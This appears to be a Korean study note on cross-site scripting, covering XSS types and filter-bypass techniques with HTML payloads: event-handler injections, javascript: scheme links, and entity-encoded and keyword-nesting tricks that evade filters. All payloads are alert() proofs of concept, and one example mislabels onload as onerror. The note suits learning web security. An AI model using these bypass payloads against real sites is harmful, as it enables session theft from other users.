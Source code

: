 # **XSS란?**

<br>

### **XSS(Cross-site-scripting)** 는 클라이언트 사이드 취약점 중 하나로, 공격자가 **웹 리소스에 악성 스크립트를 삽입**해 타 사용자의 웹 브라우저에서 해당 스크립트가 실행되는 취약점이다.

### 공격자는 해당 취약점을 통해 특정 계정의 세션 정보를 탈취하고, 해당 계정으로 임의의 기능을 수행할 수 있다.

<br>

- - -

<br>

## **XSS의 종류**

<br>

* ### **Stored XSS**
  XSS에 사용되는 악성 스크립트가 서버에 저장되고, 서버의 응답에 잠겨오는 XSS. 예시로, 게시글과 댓글 등이 대표적이다.
  <br>

* ### **Reflected XSS**
  XSS에 사용되는 악성 스크립트가 URL에 삽입되고 서버의 응답에 담겨오는 XSS
  <br>

* ### **DOM-based XSS**
  XSS에 사용되는 악성 스크립트가 URL Fragment에 삽입되는 XSS
  <br>

* ### **Universal XSS**
  클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점으로 SOP 정책을 우회하는 XSS

<br><br>

---

## **XSS Filtering 우회**

<br>

+ ### **onload 이벤트 핸들러**

<br>

  ```html
  <img src = "https://dreamhack.io/valid.jpg" onload="alert(document.domain)">
  <!-- 유효한 이미지 로드 시 onload 핸들러 실행> -->

  <img src = "https://dreamhack.io/invalid.jpg" onload="alert(document.domain)">
  <!-- 이미지 로드 실패 시 onload 핸들러 실행하지 않음> -->
  ```

  <br>

+ ### **onerror 이벤트 핸들러**
  
  <br>

    ```html
  <img src = "https://dreamhack.io/valid.jpg" onerror="alert(document.domain)">
  <!-- 유효한 이미지 로드 시 onerror 핸들러 실행하지 않음> -->

  <img src = "https://dreamhack.io/invalid.jpg" onload="alert(document.domain)">
  <!-- 이미지 로드 실패 시 onerror 핸들러 실행하함> -->
  ```

  <br>

+ ### **onfocus 이벤트 핸들러**

  <br>

  ```html
  <input type = "text" id = "inputID" onfocus="alert(document.domain)" autofocus>
  <!-- autofocus 속성으로 인해 페이지가 로드되자 마자 바로 input 태그에 포커스를 한다.
  포커스될 시 onfocus 핸들러 실행
  -->
  ```

  <br>

+ ### **문자열 치환**
  
<br>

XSS 키워드를 필터링할 때 의심되는 구문을 거부하는 대신, 단순히 치환이나 제거하는 방식의 필터링 방법이 있다.

<br>

만약 단순히 의심되는 구문을 제거할 경우, 필터링되는 키워드 사이에 새로운 필터링 키워드를 삽입하는 것으로 우회가 가능하다.

<br>

```html
(x => x.replace(/onerror/g, ''))
('<img onerroronerror=promonerrorpt(1)>') -- > <img onerror=prompt(1) />
```

<br><br>

### **활성 하이퍼링크**

<br>

HTML 마크업에서 `javascript:` 스키마는 URL 로드 시 자바스킯트 코드를 실행할 수 있도록 하는데, `a`태그나 `iframe`태그 등에 사용할 수 있다.  

<br>

```html
<a href = "javascript:alert(document.domain)">Click me!</a>

<iframe src="javascript:alert(document.domain)">
```

<br>

이런 방법때문에, `javascript:`스키마를 사용하짐지 못하도록 필터링하는 경우가 있는데, 이 경우에는 브라우저들이 URL을 사용할 떄 거치는 과정 중 하나인 정규화(Normalization)을 이용해 우회할 수 있다.

<br>

```html
<a href="\1\4jAVasC\triPT:alert(document.domain)">Click me!</a>
```

<br>

또, HTML 태그의 속성 중 HTML Entity Encoding을 사용할 수 있는데 이를 이용해 `javscript:`스키마나 이 외의 XSS 키워드를 인코딩하여 필터링을 우회하는 방법도 있다.

<br>

```html
<a href = "\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">Cliek me!</a>

<iframe src="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">
```

<br><br>

### **태그와 속성 기반 필터링**

<br>

단순히 태그나 속성을 바탕으로 필터링을 하게 되면 우회가 가능한 경우가 많다. 아래는 취약한 필터링의 예시이다.

<br>

#### **대문자 혹은 소문자만을 인식하는 필터 우회**
특정 키워드의 대소문자를 모두 검사하지 않을 경우 우회할 수 있다.

<br>

#### **잘못된 정규표현식을 사용한 필터 우회**
일반적으로 키워드를 필터링할 때 정규표현식(Regex Expression)을 이용하는데, 정규표현식 필터링 자체에 문제가 있는 경우 **정규표현식을 만족하면서 XSS 공격 구문을 삽입**할 수 있다.

<br>

#### **특정 태그 및 속성에 대한 필터링을 다른 태그 및 속성을 이용하여 필터 우회**
HTML 내엔 다양한 종류의 태그와 속성이 존재하는데, 즉 XSS 공격을 할 떄 보편적으로 사용하는 `script`, `img`, `input`, `iframe` 등의 태그가 막힌다고 모든 XSS 공격을 막을 수 있는 것은 아니다.


<br>

```html
<video><source onerror="alert(document.domain)"/>

<body onload="alert(document.domain)"/>

```

또한, `iframe` 태그의 `src` 속성은 URL을 인자로 받기 때문에, 하이퍼링크를 이용해 javascript 코드를 삽입 가능하며 `srcdoc`을 이용해 inner frame 내에 새로운 XSS 공격 코드를 입력할 수도 있다.

<br>

```html
<iframe src="javascript:alert(parent.document.domain)">

<iframe srcdoc="<&#x69;mg src=1 &#x6f;nerror=alert(parent.document.domain)>">
```